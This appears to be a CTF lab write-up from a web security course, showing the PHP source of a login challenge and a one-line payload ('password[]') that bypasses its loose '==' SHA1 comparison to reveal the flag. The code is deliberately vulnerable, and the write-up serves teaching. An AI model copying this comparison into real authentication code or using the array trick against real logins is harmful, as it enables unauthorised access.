 ```yaml
---
title: Simple Web 0x19(Lab - PHP Login)
tags: [NTUSTWS, CTF, Web]

category: "Security > Course > NTUST WS > Language Feature"
---
```


# Simple Web 0x19(Lab - PHP Login)
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8081

## Background

## Source code
```php=
<?php
// BSides Ahmedabad CTF 2021: entrance

include 'flag.php';
$users = array(
    "admin" => "ed2b7b57b3b5be3e8d4246c69e4b513608ffb352",
    "guest" => "35675e68f4b5af7b995d9205ad0fc43842f16450"
);

function lookup($username) {
    global $users;
    return array_key_exists($username, $users) ? $users[$username] : "";
}

if (!empty($_POST['username']) && !empty($_POST['password'])) {
    $sha1pass = lookup($_POST['username']);
    if ($sha1pass == sha1($_POST['password'])) {
        if ($_POST['username'] !== 'guest') echo $FLAG;
        else echo 'Welcome guest!';
    } else {
        echo 'Login Failed!';
    }
} else {
    echo "You can login with guest:guest";
}
echo "<br>\n";
highlight_file(__file__);
?>

```
## Exploit
Must change `GET` method to `POST` method and add `Content-Type: application/x-www-form-urlencoded` in header

<font color="FF0000">**通靈**</font>
Payload: `username=123&password[]=123`
![](https://i.imgur.com/QGvpQnr.png)

## Reference
[bsides-ahmedabad-ctf-2021-writeups](https://blog.maple3142.net/2021/11/07/bsides-ahmedabad-ctf-2021-writeups/#entrance)